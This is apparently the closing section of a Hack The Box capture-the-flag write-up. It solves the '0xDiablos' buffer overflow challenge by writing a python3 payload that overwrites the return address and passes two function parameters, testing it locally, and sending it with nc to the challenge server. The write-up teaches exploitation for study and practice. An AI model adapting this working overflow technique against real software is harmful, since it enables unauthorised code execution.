 
## [](#mindset-step4)Step 4 - Solving!
Let's test our new payload locally:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*188 + b'\xe2\x91\x04\x08' + b'\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" > payload2.bin(htb-venv) kaizen@celestial /tmp/htb $ cat payload2.bin | ./vulnYou know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAA�ﾭ�
Segmentation fault (core dumped)
```

Note that it did not work correctly. This is because we need to pass the `param1` and `param2` as function parameters. In order to pass them as a parameter, we need to populate the EIP register with an address. This address can essentially be anything, but its size in bytes matter. The final payload would then be:

```bash
(htb-venv) kaizen@celestial /tmp/htb :( $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*188 + b'\xe2\x91\x04\x08' + b'mula\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" > payload2.bin
(htb-venv) kaizen@celestial /tmp/htb $ cat payload2.bin | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAA�mulaﾭ�
hi mom
Segmentation fault (core dumped)
```

As we can see, we now print the value of the `flag.txt`. This adjustment was made such that it would align the stack for the `flag` function to understand our paramters.

Let's try in the server now!

```bash
^C(htb-venv) kaizen@celestial /tmp/htb $ cat payload2.bin - | nc 167.99.82.136 31987
You know who are 0xDiablos: 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAA�mulaﾭ�
HTB{redacted}
```
And there is our flag!

# [](#conclusions)Conclusion

In this CTF, we learned a lot more about reverse engineering, GDB and how to exploit a simple buffer overflow. As we can see, reverse engineering exploitation is extremely hard and troublesome, even in its simpler form.

I hope you learned something knew today, and as always, never forget to do your **research**!

<a href="/">Go back</a>

